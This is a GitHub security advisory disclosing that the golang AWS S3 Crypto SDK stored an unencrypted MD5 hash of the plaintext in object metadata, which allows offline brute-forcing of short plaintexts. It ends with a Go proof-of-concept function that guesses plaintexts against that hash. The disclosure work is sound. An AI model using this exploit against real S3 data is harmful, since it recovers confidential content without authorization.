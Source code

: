 ```yaml
---
title: ' AWS: Unencrypted md5 plaintext hash in metadata in the AWS S3 Crypto SDK
  for golang'
published: '2020-08-10T20:22:25Z'
severity: Moderate
ghsa_id: GHSA-76wf-9vgp-pj7w
cve_id: ''
weaknesses: []
products:
- ecosystem: ''
  package_name: AWS S3 crypto SDK (aws-sdk-go/service/s3/s3crypto)
  affected_versions: <=2020.08.05
  patched_versions: 2020.08.05
cvss: null
credits:
- github_user_id: sophieschmieg
  name: Sophie Schmieg
  avatar: https://avatars.githubusercontent.com/u/53278002?s=40&v=4
---
```


### Summary

The golang AWS S3 Crypto SDK was impacted by an issue that can result in loss of confidentiality. An attacker with read access to an encrypted S3 bucket was able to recover the plaintext without accessing the encryption key.

### Risk/Severity

The vulnerability poses insider risks/privilege escalation risks, circumventing KMS controls for stored data.

### Impact

The issue has been fully mitigated by AWS as of Aug. 5th by disallowing the header in question.

The S3 crypto library tries to store an unencrypted hash of the plaintext alongside the ciphertext as a metadata field. This hash can be used to brute force the plaintext in an offline attack, if the hash is readable to the attacker. In order to be impacted by this issue, the attacker has to be able to guess the plaintext as a whole. The attack is theoretically valid if the plaintext entropy is below the key size, i.e. if it is easier to brute force the plaintext instead of the key itself, but practically feasible only for short plaintexts or plaintexts otherwise accessible to the attacker in order to create a rainbow table.

The issue has been fixed server-side by AWS as of Aug 5th, by blocking the related metadata field. No S3 objects are affected anymore.

### Mitigation

The header in question is no longer served by AWS, making this attack fully mitigated as of Aug. 5th.

### Proof of concept

A [Proof of concept](https://github.com/sophieschmieg/exploits/tree/master/aws_s3_crypto_poc) is available in a separate github repository, this particular issue can be found at [here](https://github.com/sophieschmieg/exploits/blob/master/aws_s3_crypto_poc/exploit/hash_exploit.go):

```golang
func HashExploit(bucket string, key string, input *OfflineAttackInput) (string, error) {
	_, header, err := input.S3Mock.GetObjectDirect(bucket, key)
	length, err := strconv.Atoi(header.Get("X-Amz-Meta-X-Amz-Unencrypted-Content-Length"))
	plaintextMd5 := header.Get("X-Amz-Meta-X-Amz-Unencrypted-Content-Md5")
	blocks := length / 16
	possiblePlaintextNum := 1
	segNum := len(input.PossiblePlaintextSegments)
	for i := 0; i < blocks; i++ {
		possiblePlaintextNum *= segNum
	}
	for i := 0; i < possiblePlaintextNum; i++ {
		w := i
		guess := ""
		for j := 0; j < blocks; j++ {
			guess += input.PossiblePlaintextSegments[w%segNum]
			w /= segNum
		}
		guessMd5 := md5.Sum([]byte(guess))
		if plaintextMd5 == base64.StdEncoding.EncodeToString(guessMd5[:]) {
			return guess, nil
		}
	}
	return "", fmt.Errorf("No plaintext found!")
}
```

The PoC will only work on old versions of the library, as the hash has been removed from being calculated as well.